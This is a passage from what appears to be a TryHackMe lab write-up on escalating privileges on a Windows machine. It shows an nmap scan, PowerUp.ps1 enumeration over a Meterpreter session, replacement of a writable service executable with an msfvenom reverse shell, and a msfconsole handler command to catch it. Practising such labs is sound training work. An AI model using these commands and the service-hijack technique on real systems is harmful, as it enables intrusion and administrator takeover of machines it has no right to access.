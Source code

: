 ``` sudo nmap -p- --open 10.10.254.83 -Pn -n --min-rate 5000 -vvv -oN escaneo ```

Once inside the machine, we need to find a way to escalate our privileges. On this occasion, as recommended by TryHackMe, we'll use a PowerShell script called PowerUp. This script will give us hints to quickly identify ways to become the administrator of the machine. To download it to our local machine, we'll use the following command:

``` wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1 ```


![alt text](images/image-19.png)


With the script on our attacking machine, we need to find a way to upload it to the victim machine. In this case, since we have an open Meterpreter session thanks to Metasploit, we just need to use the command upload followed by our recently downloaded file.


![alt text](images/image-20.png)


Great, the script is uploaded to the victim machine successfully. Now we need to convert our Meterpreter session to an interactive PowerShell console to execute the file. To achieve this, we use the command load powershell. Once loaded, we can use powershell_shell to get the desired shell.


![alt text](images/image-21.png)


Now, simply execute the script and then pass the command Invoke-AllChecks to our PowerShell console. By carefully examining the output, we can correctly answer the next question from TryHackMe.


![alt text](images/image-22.png)


![alt text](images/image-23.png)


If we look closely at the output of the script, we can see that besides having permission to restart the service, we also have write permissions in its directory. Combining these two signals, we realize that we could write malicious commands in this directory and then restart the service to execute our orders. To achieve this, we'll use msfvenom to generate a reverse shell with privileged permissions, replacing the legitimate executable with the one we just created.


![alt text](images/image-24.png)


To listen on our attacking machine to receive the shell, we use the command msfconsole -qx 'use exploit/multi/handler;set lhost tun0;set lport 4443;set payload windows/meterpreter/reverse_tcp;run'


![alt text](images/image-27.png)


![alt text](images/image-26.png)


After these steps, we just need to restart the service, and when our malicious file executes, we'll receive a new connection on our attacking machine. And it's not just any connection.



```